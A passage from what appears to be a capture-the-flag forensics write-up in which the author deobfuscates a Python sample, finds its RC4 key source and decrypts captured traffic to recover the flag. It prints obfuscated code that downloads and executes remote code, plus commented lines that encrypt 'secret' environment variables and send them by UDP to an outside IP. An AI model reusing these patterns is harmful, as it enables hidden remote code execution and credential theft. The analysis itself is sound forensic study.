_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(((_<<_)*_)+_))),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[])))))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+(_<<_))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+_))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+(_<<_))),(__+(((_<<_)<<_)+_)),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+(_<<_))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(((_<<_)*_)+_))),(__+(((_<<_)<<_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(((_<<_)<<_)+((_<<_)+((_*_)+_))),(__+(((_<<_)<<_)+((_<<_)*_))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[]))))))
print(_)
print(__)
print(___)
exit()

-------------
Output:

2
64
https://gist.github.com/hsauers5/491f9dde975f1eaa97103427eda50071/raw/a8f66f1f9e77b2db28bab1328db274f05722b535/rc4.py
```

So the variable ``___`` is the only one used after the three obfuscated lines, and correspond to a [gist.github.com](https://gist.github.com/hsauers5/491f9dde975f1eaa97103427eda50071/raw/a8f66f1f9e77b2db28bab1328db274f05722b535/rc4.py) link.

This file is called ``rc4.py``, and embeds function to :
- Generate keys
- Encrypt and decrypt data

We have all we need to decrypt the sent data, except the key. By prompting ``k`` and its type, we can understand its origin:

```python
k = '%d' % int(time.time())
print(k)
print(type(k))

-------------
Output:

1714290986
<type 'str'>
```

``k`` is a **str** taken from the timestamp of the execution. Timestamp taken in seconds, according to [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_UNIX_Timestamp('Seconds%20(s)')&input=MTcxNDI5MDk4Ng) once again : 


We know have :
- the function to decrypt and recover the data
- the knowledge of the key

What misses now is :
- the timestamp used for encryption
- the encrypted data

We've already found that **it was sent to the ip ``83.84.179.243``**, so let's search it in our network capture :


Our missing information is:
- Data: ``0X570X6A0XC50X5F0XDE0XC60X2D0XED0X7A0XF0XD90X850XBD0XC40X2A0XD60XE00X6E0X8A0XCC0X660XDB0XDE0X570X430XD20XB10X700XAC0X200X4A0XE30X4E0X620X5B0XBD0XF60X140XDD0X900XD50X2E0XF00XF90X260X6D0X490X830XAB0X310XAA0X3A0XD10X2A0X490X850X5E0X900XCE0X530X3B0XF40X480XAD0X640X540X550X330X530XF70X6A0XB80XE7``
- Timestamp : ``1708176002``

Then, this code decrypts the data : 

```python
from urllib2 import urlopen
import types,time,os 
import socket 

_=((()>[])+(()>[]));
__=(((_<<_)<<_)*_);
___=('c%'[::(({}>[])-(()>[]))])*(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))))%((__+(((_<<_)<<_)+(_<<_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(__+(((_<<_)<<_)+((_<<_)*_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+_))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(((_<<_)<<_)+((_<<_)+((_*_)+_))),(__+(((_<<_)<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(__+(((_<<_)<<_)+(_<<_))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[]))))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+((_<<_)+((_*_)+_))),(__+(((_<<_)<<_)+(_+(()>[])))),(__+(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[])))))),(__+(((_<<_)<<_)+((_<<_)+((_*_)+(()>[]))))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(_<<_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[]))))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+(((_<<_)*_)+_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(((_<<_)*_)+_))),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[])))))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+(_<<_))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+_))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+(_<<_))),(__+(((_<<_)<<_)+_)),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+(_<<_))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(((_<<_)*_)+_))),(__+(((_<<_)<<_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(((_<<_)<<_)+((_<<_)+((_*_)+_))),(__+(((_<<_)<<_)+((_<<_)*_))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[]))))))
m = types.ModuleType('')
exec(urlopen(___).read().decode('utf-8'), m.__dict__)

k = str(1708176002)
data = "0X570X6A0XC50X5F0XDE0XC60X2D0XED0X7A0XF0XD90X850XBD0XC40X2A0XD60XE00X6E0X8A0XCC0X660XDB0XDE0X570X430XD20XB10X700XAC0X200X4A0XE30X4E0X620X5B0XBD0XF60X140XDD0X900XD50X2E0XF00XF90X260X6D0X490X830XAB0X310XAA0X3A0XD10X2A0X490X850X5E0X900XCE0X530X3B0XF40X480XAD0X640X540X550X330X530XF70X6A0XB80XE7"
print(m.decrypt(data, k))

# enc = m.encrypt(str([{a:b} for a,b in os.environ.items() if a.lower().startswith('secret')]), k)
# sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
# sock.sendto(enc, ('83.84.179.243', 16495))

-------------
Output:

[{'secret_technique': '  MCTF{my_secret_f0rens1c_tool_is_ripgrep!.!.!}'}]
```


:triangular_flag_on_post: `MCTF{my_secret_f0rens1c_tool_is_ripgrep!.!.!}`

